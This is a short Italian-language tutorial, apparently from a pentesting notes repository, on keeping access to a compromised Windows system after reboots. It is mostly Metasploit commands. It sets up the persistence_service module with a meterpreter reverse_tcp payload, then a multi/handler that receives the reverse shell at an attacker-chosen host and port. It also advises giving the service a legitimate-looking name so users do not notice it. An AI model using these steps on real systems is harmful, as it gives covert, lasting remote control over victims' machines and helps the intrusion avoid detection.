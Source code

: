 # Mantenere la persistenza su un sistema Windows
La persistenza consiste in una serie di tecniche che degli aggressori utilizzano per mantenere l'accesso ai sistemi dopo essere stati riavvaiti, dopo che la vittima ha cambiato le credenziali o altre azioni che potrebbero interrompere l'accesso ad un attaccante. <br>

## modulo persistance service
dopo aver ottenuto l'accesso a un target tramite una sessione meterpreter, possiamo usare un modulo per poter mantenere l'accesso sul sistema anche quando viene riavviato.
```bash
use exploit/windows/local/persistence_service
set payload windows/meterpreter/reverse_tcp
set REMOTE_EXE_NAME <nome>                         # impostiamo un nome al sitema target su cui vogliamo mantenere l'accesso
set REMOTE_EXE_PATH                                # impostiamo il path dove si dovrá trovare il nostro servizio di persistenza
set SERVICE_NAME <name>
set SESSION 1
set LPORT <PORT>                                   # impostiamo una porta diversa da quella usata per meterpreter
#questa porta verrá usata per riprendere l'accesso
run
```
> impostiamo un `SERVICE_NAME` con un nome piú legittimo possibile perché gli utenti potrebbero essere in grado di rilevare il servizio di persistenza dal Task Manager.

## acesso 
dopo aver eseguito il modulo, per poter accedere al sistema usiamo un multi handler
```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp       # stesso payload usato nel modulo di persistenza
set LHOST <IP>
set LPORT <PORT>  	                              # stessa porta usasta nel modulo di persistenza
run
```
subito dopo aver eseguito il multi handler, verremo immediatamente portati in una sessione meterpreter perché sul target é in continua esecuzione il modulo di persistenza anche quando viene riavviato il sistema del target.

---
